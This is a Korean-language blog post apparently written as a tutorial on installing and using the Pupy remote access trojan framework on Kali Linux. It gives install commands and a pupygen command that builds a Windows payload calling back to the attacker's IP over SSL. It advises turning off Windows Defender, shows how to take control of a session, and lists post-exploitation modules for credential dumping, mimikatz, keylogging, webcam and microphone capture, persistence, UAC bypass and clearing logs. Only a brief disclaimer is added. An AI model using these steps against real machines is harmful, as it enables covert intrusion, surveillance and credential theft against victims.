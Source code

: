 ```yaml
---
layout: post
title: ! "[Kali] PUPY 설치 및 사용법"
categories: [Kali]
excerpt: " "
comments: true
share: true
published : false
tags:
  - Kali Linux
  - Pupy
  - install
---
```


## 설치

### 환경 : Kali Linux,VMware Workstation 12 pro

참고 : https://github.com/n1nj4sec/pupy
```
git clone https://github.com/n1nj4sec/pupy.git pupy
cd pupy
git submodule init
git submodule update
pip install -r pupy/requirements.txt
wget https://github.com/n1nj4sec/pupy/releases/download/latest/payload_templates.txz
tar xvf payload_templates.txz && mv payload_templates/* pupy/payload_templates/ && rm payload_templates.txz && rm -r payload_templates
```

#### PUPY 설치
 1. git clone https://github.com/n1nj4sec/pupy.git
![](/assets/posts/kali/pupy_git.png)
 2. cd pupy
 3. git submodule init
![](/assets/posts/kali/pupy_init.png)

 4. git submodule update
![](/assets/posts/kali/pupy_update.png)

 5. pip install -r pupy/requirements.txt

★설치가 안되거나 에러가 발생하는 경우 밑에 필요하다고 뜨는 것들을 설치해보면서 에러를 해결하시면 됩니다.


## 사용법
★공격자 ip는 ifconfig로 확인하시길 바랍니다.
![](/assets/posts/kali/pupy_ifconfig.png)

```
./pupygen.py -O (타겟의 운영체제) -A (타겟의 아키텍쳐) -o (파일명.확장자) connect --host  (공격자 IP) --transport ssl 

./pupygen.py  -O windows -A x64 -o MitNy.exe  connect --host 000.000.000.000 --transport ssl
```

![](/assets/posts/kali/pupy_gen.png)
저는 파일을 예전에 만들어놨고, VM이 아닌 제 컴퓨터에 직접 파일을 설치해놨었기 때문에 그것을 사용하겠습니다.(mitny.exe)
자신의 컴퓨터에 직접 테스트를 해보고싶으시면 Windows defender를 끄고 해보세요.
(절대 악의적인 목적으로 타인의 컴퓨터에 사용하지 마세요. 법적인 책임은 본인에게 있습니다.)

![](/assets/posts/kali/pupy_mitny.png)


- pupysh.py 파일 실행

- 패스워드 입력 후 타겟 컴퓨터에서 위에서 만든 파일 실행 시 세션이 잡힘.

- sessions -i 1 -> Session 1이 타겟이 됨


![](/assets/posts/kali/pupy_start.png)

`- info 입력시 타겟의 정보가 출력됨`

![](/assets/posts/kali/pupy_info.png)

★ list_modules를 치면 사용 가능한 명령어 리스트를 볼 수 있습니다.

```
admin/beroot                 Windows Privilege Escalation
admin/clear_logs             Clear Event Logs
admin/dns                    Retrieve Domain Name From Ip And Vice Versa
admin/drives                 List Valid Drives In The System
admin/getdomain              Get Primary Domain Controller
admin/igd                    Upnp Igd Client
admin/interactive_shell      Open An Interactive Command Shell With A Nice Tty
admin/pexec                  Execute Shell Commands Non-Interactively On A Remote System In Background Using Popen
admin/psexec                 Launch Remote Commands Using Smbexec Or Wmiexec
admin/psh                    Load/Execute Powershell Scripts
admin/pyexec                 Execute Python Code On A Remote System
admin/pyshell                Open An Interactive Python Shell On The Remote Client
admin/rdesktop               Start A Remote Desktop Session Using A Browser Websocket Client
admin/rdp                    Enable / Disable Rdp Connection Or Check For Valid Credentials On A Remote Host
admin/scapy_shell            Open An Interactive Python Shell On The Remote Client
admin/shares                 List Local And Remote Shared Folder And Permission
admin/shell_exec             Execute Shell Commands On A Remote System
admin/smb                    Copy Files Via Smb Protocol
admin/smbspider              Walk Through A Smb Directory And Recursively Search A String Into Files
admin/ssh                    Ssh Client
admin/zip                    Zip / Unzip File Or Directory
creds/changeme               Default Credential Scanner
creds/creddump               Download The Hives From A Remote Windows System And Dump Creds
creds/lazagne                Retrieve Passwords Stored On The Target
creds/loot_memory            Crawl Processes Memory And Look For Cleartext Credentials
creds/memstrings             Dump Printable Strings From Process Memory For Futher Analysis
exploit/exploit_suggester    Exploit Suggester
exploit/impersonate          List/Impersonate Process Tokens
exploit/mimikatz             Execute Mimikatz From Memory
exploit/shellcode_exec       Executes The Supplied Shellcode On A Client
gather/check_vm              Check If Running On Virtual Machine
gather/cloudinfo             Retrieve Ec2/Digitalocean Metadata
gather/get_hwuuid            Try To Get Uuid (Dmi) Or Machine-Id (Dbus/Linux)
gather/get_info              Get Some Informations About One Or Multiple Clients
gather/keylogger             A Keylogger To Monitor All Keyboards Interaction Including The Clipboard :-)
gather/mouselogger           Log Mouse Clicks And Take Screenshots Of Areas Around It
gather/netcreds              Sniffs Cleartext Passwords From Interface
gather/outlook               Interact With Outlook Session Of The Targeted User
gather/powerview             Execute Powerview Commands
gather/pywerview             Rewriting Of Some Powerview'S Functionalities In Python
gather/record_mic            Record Sound With The Microphone !
gather/screenshot            Take A Screenshot :)
gather/search                Walk Through A Directory And Recursively Search A String Into Files
gather/users                 Get Interactive Users
gather/webcamsnap            Take A Webcam Snap :)
general/process_kill         Kill A Process
manage/download              Download A File/Directory From A Remote System
manage/duplicate             Duplicate The Current Pupy Payload By Executing It From Memory
manage/getprivs              Manage Current Process Privileges
manage/lock_screen           Lock The Session
manage/memory_exec           Execute A Executable From Memory
manage/migrate               Migrate Pupy Into Another Process Using Reflective Dll Injection
manage/persistence           Enables Persistence Via Registry Keys
manage/upload                Upload A File/Directory To A Remote System
network/forward              Local/Remote Port Forwarding And Socks Proxy
network/nbnsspoof            Sniff For Nbns Requests And Spoof Nbns Responses
network/port_scan            Run A Tcp Port Scan
network/portfwd              Perform Local/Remote Port Forwarding Using Openssh -L/-R Syntax
network/socks5proxy          Start A Socks5 Proxy Going Through A Client
network/tcpdump              Module To Reproduce Some Of The Classic Tcpdump Tool Functions
privesc/bypassuac            Try To Bypass Uac
privesc/getsystem            Try To Get Nt Authority System Privileges
privesc/inveigh              Execute Inveigh Commands
troll/msgbox                 Pop Up A Custom Message Box
```
